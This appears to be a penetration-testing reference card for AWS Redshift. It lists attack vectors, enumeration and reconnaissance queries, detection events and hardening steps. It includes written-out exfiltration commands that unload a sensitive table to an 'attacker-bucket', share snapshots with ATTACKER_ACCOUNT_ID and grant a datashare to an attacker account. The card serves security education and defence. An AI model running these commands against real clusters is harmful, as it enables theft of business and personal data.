

#  AWS Redshift Security



> **Category**: DATA WAREHOUSE

Amazon Redshift is a petabyte-scale data warehouse. Contains business-critical analytics data, often including PII, financial records, and aggregated sensitive information from multiple sources.

## Quick Stats

| Risk Level | Scope | Default Port | Protocol |
| --- | --- | --- | --- |
| **CRITICAL** | **Regional** | **5439** | **PostgreSQL** |

## Service Overview

### Redshift Clusters

Massively parallel processing (MPP) clusters for analytics workloads. Uses PostgreSQL-compatible SQL. Stores petabytes of structured data from multiple business sources.

> Attack note: Redshift credentials often shared across teams. Look for credentials in code, Secrets Manager, or Parameter Store.

### Snapshots & Data Sharing

Automated and manual snapshots for backup and cross-region/account sharing. Data sharing allows direct access across accounts without copying data.

> Attack note: Snapshots can be shared cross-account for exfiltration. Data shares may expose production data to dev accounts.

## Security Risk Assessment

`█████████░` **9.2/10** (CRITICAL)

Redshift contains aggregated business intelligence data - crown jewels. Compromising Redshift often means access to the most sensitive data in the organization across multiple source systems.

## ⚔️ Attack Vectors

### Direct Access

- Credential theft from Secrets Manager
- SQL injection in BI applications
- IAM authentication abuse
- Snapshot sharing to attacker account
- Public cluster endpoint exposure

### Data Exfiltration

- UNLOAD to attacker S3 bucket
- COPY to external Redshift
- Cross-account data sharing
- Snapshot copy to external account
- Federated query to external targets

## ⚠️ Misconfigurations

### Access Issues

- Publicly accessible cluster
- Weak master user password
- No IAM authentication
- Security group allows 0.0.0.0/0
- Same credentials for prod/dev

### Data Protection Issues

- Encryption at rest disabled
- Audit logging disabled
- No SSL enforcement
- Snapshots shared publicly
- UNLOAD to public S3 buckets

## 🔍 Enumeration

**List Clusters**
```bash
aws redshift describe-clusters
```

**Get Cluster Endpoint**
```bash
aws redshift describe-clusters \\
  --query 'Clusters[].Endpoint'
```

**List Snapshots**
```bash
aws redshift describe-cluster-snapshots
```

**Check Public Access**
```bash
aws redshift describe-clusters \\
  --query 'Clusters[].PubliclyAccessible'
```

**List Data Shares**
```bash
aws redshift describe-data-shares
```

## 💉 SQL Exploitation

### Reconnaissance Queries

- SELECT * FROM pg_tables - list tables
- SELECT * FROM pg_user - list users
- SELECT * FROM svv_columns - column info
- SELECT * FROM stl_query - query history
- SELECT * FROM svl_user_info - user details

### Sensitive Data Queries

- Query STL_CONNECTION_LOG for IPs
- Query STL_USERLOG for user activity
- Query pg_catalog for schema info
- Search for credit card patterns
- Search for SSN patterns

> **Pro tip:** Check SVV_EXTERNAL_TABLES for federated access to S3 data lakes.

## 📤 Data Exfiltration

### UNLOAD to S3

- UNLOAD to attacker-controlled bucket
- Use ALLOWOVERWRITE to replace files
- PARALLEL OFF for single large file
- FORMAT CSV for easy processing
- ENCRYPTED with attacker KMS key

### Snapshot Techniques

- Share snapshot to external account
- Copy snapshot to external region
- Restore in attacker account
- Grant snapshot access to *
- Automate with scheduled snapshots

## 🛡️ Detection

### CloudTrail Events

- AuthorizeSnapshotAccess - sharing
- CreateClusterSnapshot - backup
- ModifyClusterSnapshotSchedule - schedule
- ModifyCluster - config change
- GetClusterCredentials - IAM auth

### Audit Logging (STL Tables)

- stl_connection_log - connections
- stl_query - executed queries
- stl_ddltext - DDL statements
- stl_userlog - user changes
- stl_undone - rolled back queries

## Exploitation Commands

**Connect with psql**
```bash
psql -h cluster.xxx.region.redshift.amazonaws.com \\
  -U admin -d database -p 5439
```

**Get IAM Credentials**
```bash
aws redshift get-cluster-credentials \\
  --cluster-identifier my-cluster \\
  --db-user admin \\
  --db-name database
```

**UNLOAD Data to S3**
```bash
UNLOAD ('SELECT * FROM sensitive_table')
TO 's3://attacker-bucket/exfil/'
IAM_ROLE 'arn:aws:iam::123456789012:role/RedshiftRole'
FORMAT CSV
ALLOWOVERWRITE;
```

**Share Snapshot Cross-Account**
```bash
aws redshift authorize-snapshot-access \\
  --snapshot-identifier my-snapshot \\
  --account-with-restore-access ATTACKER_ACCOUNT_ID
```

**List All Tables**
```bash
SELECT schemaname, tablename
FROM pg_tables
WHERE schemaname NOT IN ('pg_catalog', 'information_schema');
```

**Create Data Share (Exfil)**
```bash
CREATE DATASHARE exfil_share;
ALTER DATASHARE exfil_share ADD SCHEMA public;
GRANT USAGE ON DATASHARE exfil_share TO ACCOUNT 'ATTACKER';
```

## Policy Examples

### ❌ Dangerous - Public Cluster

```json
Cluster Configuration:
  PubliclyAccessible: true
  Encrypted: false
  EnhancedVpcRouting: false

Security Group:
  Inbound: 0.0.0.0/0:5439 (ALLOW)
```

*Public endpoint, no encryption, open security group - fully exposed*

### ✅ Secure - Private VPC

```json
Cluster Configuration:
  PubliclyAccessible: false
  Encrypted: true
  KmsKeyId: arn:aws:kms:...:key/xxx
  EnhancedVpcRouting: true

Security Group:
  Inbound: sg-app-servers:5439 (ALLOW)
```

*Private, encrypted, enhanced VPC routing, restricted security group*

### ❌ Risky - Overly Permissive IAM Role

```json
{
  "Effect": "Allow",
  "Action": [
    "s3:*",
    "redshift:*"
  ],
  "Resource": "*"
}
// Attached to Redshift cluster
```

*Cluster role can access any S3 bucket - data exfil risk*

### ✅ Secure - Least Privilege IAM

```json
{
  "Effect": "Allow",
  "Action": [
    "s3:GetObject",
    "s3:ListBucket"
  ],
  "Resource": [
    "arn:aws:s3:::data-lake-bucket",
    "arn:aws:s3:::data-lake-bucket/*"
  ],
  "Condition": {
    "StringEquals": {"aws:SourceVpc": "vpc-xxx"}
  }
}
```

*Limited to specific bucket with VPC condition*

## Defense Recommendations

### 🔒 Deploy in Private VPC

Never make Redshift publicly accessible. Use VPN or Direct Connect.

```bash
aws redshift modify-cluster \\
  --cluster-identifier my-cluster \\
  --no-publicly-accessible
```

### 🔐 Enable Encryption

Encrypt at rest with KMS and enforce SSL connections.

```bash
aws redshift modify-cluster \\
  --cluster-identifier my-cluster \\
  --encrypted \\
  --kms-key-id arn:aws:kms:...:key/xxx
```

### 📝 Enable Audit Logging

Send audit logs to S3 for security monitoring.

```bash
aws redshift enable-logging \\
  --cluster-identifier my-cluster \\
  --bucket-name audit-logs \\
  --s3-key-prefix redshift/
```

### 👤 Use IAM Authentication

Replace static passwords with IAM credentials.

```bash
aws redshift get-cluster-credentials \\
  --cluster-identifier my-cluster \\
  --db-user IAM:username
```

### 🚫 Restrict Snapshot Sharing

Use SCP to prevent sharing snapshots outside organization.

```bash
"Effect": "Deny",
"Action": "redshift:AuthorizeSnapshotAccess",
"Condition": {"StringNotEquals": {"aws:PrincipalOrgID": "o-xxx"}}
```

### 🔍 Monitor UNLOAD Operations

Alert on UNLOAD to unauthorized S3 buckets via query logging.

---

*AWS Redshift Security Card*

*Always obtain proper authorization before testing*
